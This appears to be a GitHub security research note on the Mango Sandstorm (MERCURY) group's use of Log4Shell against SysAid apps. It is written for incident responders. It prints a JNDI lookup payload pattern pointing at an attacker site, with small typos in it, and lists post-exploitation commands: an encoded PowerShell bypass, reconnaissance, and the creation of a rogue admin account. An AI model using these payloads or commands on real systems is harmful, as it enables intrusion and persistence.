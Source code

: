 # Day 4 - Mango Sandstorm Attack techniques & insights
While I am tracing back the history of Mango Sandstorm, formerly known as MERCURY, I have a few questions, and I hope that these questions and my curiosity will help someone with their security incident response.

|#|Title|About|
|:---|:---|:---|
| Part 1 | [Day4-Mango-Sandstorm-Part1-Overview.md](https://github.com/LearningKijo/SecurityResearcher-Note/blob/main/SecurityResearcher-Note-Folder/Day4-Mango-Sandstorm-Part1-Overview.md)   | Mango Sandstorm overview |
| Part 2 | Day4-Mango-Sandstorm-Part2-AttackTechniques-Insights.md  |August 25, 2022, Mango Sandstorm |
| Part 3 | Day4-Mango-Sandstorm-Part3-AttackTechniques-Insights.md (wip) |April 7, 2023, Mango Sandstorm & Storm-1084 |

## August 25, 2022, Mango Sandstorm
#### Short Summary
Mango Sandstorm, previously known for using Log4j 2 exploits to attack VMware apps, has recently been targeting SysAid apps using the same technique. Once they gain initial access, the group establishes persistence, moves laterally within the network using custom and well-known hacking tools, and dumps credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/f67bb7ac-2cc3-4a6e-ab31-06b8db9ce991)
> **Note** : [MERCURY leveraging Log4j 2 vulnerabilities in unpatched systems to target Israeli organizations](https://www.microsoft.com/en-us/security/blog/2022/08/25/mercury-leveraging-log4j-2-vulnerabilities-in-unpatched-systems-to-target-israeli-organizations/)


## Log4j 2 vulnerability
As the Mango Sandstorm attack was initiated through the Log4j vulnerability, let's delve deeper into the attack and the vulnerability.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49b682a4-10a9-4b9b-be53-a0c80e00d01b)
> [Remediating the Log4j vulnerability](https://www.youtube.com/watch?v=ulOTK2pZLNU) | Microsoft Defender for Endpoint

#### What is Log4j?
Log4j is a widely used Java logging library that allows developers to log events and messages in their applications. It provides flexibility in categorizing and controlling logging output, enabling effective debugging and monitoring of applications.

#### Why was Log4j 2 exploited?
Log4j 2, an updated version of Log4j, is a widely used and powerful logging framework in Java. However, it had a critical vulnerability called Log4Shell (CVE-2021-44228, CVE-2021-45046, CVE-2021-44832), ***which allowed attackers to remotely execute code by exploiting its deserialization functionality.*** 

#### How does the attacker precisely exploit the vulnerable Log4j 2? 
Attackers exploit vulnerable Log4j 2 systems by sending data containing a specific string. Log4j 2, while attempting to process this string, accesses ***a specified URL through the JNDI Lookup feature***. This allows attackers to download and execute malicious Java code within the system.
> **Note** : Java Naming and Directory Interface (JNDI)<br>
> It is a Java API that helps applications find and access data and resources using names.

#### A specified URL?
Here is the pattern of attack - **${indi:ldap//[attacker site]/a}**

e.g.
```
${indi:http//learningkijo.com/sub}
```

#### What commands were executed through the Log4j 2 exploit?
```cmd
cmd.exe /C whoami
cmd.exe /C powershell -exec bypass -w 1 -enc UwB….
cmd.exe /C hostname
cmd.exe /C ipconfig /all
cmd.exe /C net user
cmd.exe /C net localgroup administrators
cmd.exe /C net user admin * /add
cmd.exe /C net localgroup Administrators admin /add
cmd.exe /C quser
```
### Reference
1. [Guidance for preventing, detecting, and hunting for exploitation of the Log4j 2 vulnerability](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
2. [Log4j (CVE-2021-44228) RCE Vulnerability Explained](https://www.youtube.com/watch?v=0-abhd-CLwQ)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
